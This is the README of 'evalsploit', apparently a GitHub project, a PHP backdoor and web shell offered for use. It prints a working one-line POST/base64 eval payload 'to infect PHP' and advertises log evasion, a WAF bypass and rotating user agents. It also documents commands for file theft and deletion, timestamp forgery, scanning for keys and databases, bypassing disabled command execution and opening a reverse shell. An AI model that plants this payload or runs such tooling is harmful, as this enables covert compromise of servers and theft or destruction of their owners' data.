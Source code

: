 # [evalsploit по-русски](README_RU.md)
# [evalsploit 中文版](README_CH.md)

# evalsploit
Backdoor based on the `eval` function. Can be used as standalone web-shell

### Features

-   **Stealth**
    -   Works on POST requests, practically invisible to logs
    -   Built-in WAF bypass
    -   New user agent every new session
    -   Stealth operation setting


-   **Universal**
    -   Payload can be injected in any part of the php code
    -   Suitable for working with servers on Linux, Windows, Mac OS

# Manual

#### Getting started

1) Use the payload to infect PHP or as an independent shell:
`if(isset($_POST['Z'])){@eval(base64_decode(str_replace($_POST['V'], '' ,$_POST['Z'])));die();}`
3) When starting the program, evalsploit will require a link to the file with the payload
4) When changing the `send` module (see "program setup"), use the `gen` command to generate a new payload

#### Working with the file system

-   `ls`: list of files in the directory
	-   Setting `ls`: based on the DirectoryIterator function (stands by default)
	-   Setting `dir`: based on the ScanDir function

-   `cp`: copying files
    -   Use the separator ` : ` (/what.txt : /where/what.txt )

-   `cd`: moving through the file system

-	`mkd`: create a new directory

-	`upl`: upload a file to the server

-	`home`: back to \_\_DIR\_\_

-	`pwd`: print the active directory

#### Working with files

-   `cat`: print the file contents
    -   Setting `html`: based on the htmlentities function
	-   Setting `base64`: based on the base64_encode\base64_decode function (set as default)

-   `rm`: delete file

-   `dl`: download file (to the /download folder)
	-	Does not work well with files larger than 100 MB
	
-   `edit`: edit file contents
	-	Does not work well with files larger than 100 MB

-	`mkf`: create new file

-	`touch`: change file datestamp
	-	Use the ` settime ` separator (file.рhр settime Year-Month-Day Hour:Minute:Second)

-	`stat`: file information

-	`ren`: rename file
	-	Use the separator ` : ` (/where/old.txt : new.php )


#### Working with the evalsploit system

-   `run`: switch to command line mode
	-	`exit` to exit the mode
	-	Supports exec, shell_exec, system, passthru, popen, proc_open, expect_popen, pcntl_exec, do
	
-	`info`: server informtion
	-	php version, OS
	
-	`scan`: scanning the selected directory
	-	Search for system PHP, databases, keys etc
	
-	`exploit`: bypassing disabled command line with built-in exploits, activates the command line mode
	-	`exit` to exit the mode

-	`reverse`: reverse-shell - `reverse IP:PORT`
	
-	`gen`: generating a payload depending on the send module
	
-	`help`: home screen
	
-	`exit`: exit
	
	
	
#### Program Setup

-	`set`: configuring modules. To view the list of parameters use `set module help`
	-	Instead of `help` acceptable `-h`, `h`, `?`, `/?`)
	-	**run**: `exec`, `shell_exec`, `system`, `passthru`, `popen`, `proc_open`, `expect_popen`, `pcntl_exec`, `do`
	-	**ls**: `ls`, `dir`
	-	**cat**: `html`, `base64`
	-	**silent**: `1`, `0` (Stealth)
	-	**reverse**: `ivan`, `monkey` 
	-	**send**: `bypass`, `classic`, `simple` (send mmodule)
	
